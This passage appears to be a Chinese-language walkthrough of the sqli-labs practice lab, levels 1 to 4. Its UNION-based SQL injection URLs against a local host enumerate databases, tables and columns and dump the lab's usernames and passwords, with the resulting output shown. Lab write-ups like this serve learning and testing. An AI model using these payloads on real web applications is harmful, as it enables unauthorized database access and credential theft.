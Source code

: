 

3. 查看显示位

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=2 union select 1,2,3 --+
#显示为2，3说明显示位为2，3位
```

4. 爆库

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
#一次性报完，一个坑位显示
#Your Login name:information_schema,challenges,mysql,performance_schema,security,test

http://127.0.0.1/sqli-labs-master/Less-1/?id=1' AND 1=2 union select 1,database(),3 --+
#Your Login name:security
```

5. 爆表

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' AND 1=2 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
#Your Password:emails,referers,uagents,users
```

6. 爆字段

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' AND 1=2 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') --+
#Your Password:id,username,password
```

7. 爆内容

```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
#Your Login name:Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
#Your Password:Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
```

```
group_concat(),concat_ws()和concat()三个函数可以相互替换。
```

### 2-3-4

```
2：无闭合
http://127.0.0.1/sqli-labs-master/Less-2/?id=1 AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+"

3：')闭合
http://127.0.0.1/sqli-labs-master/Less-3/?id=1') AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+"

4：")闭合
http://127.0.0.1/sqli-labs-master/Less-4/?id=1 ") AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+"
```
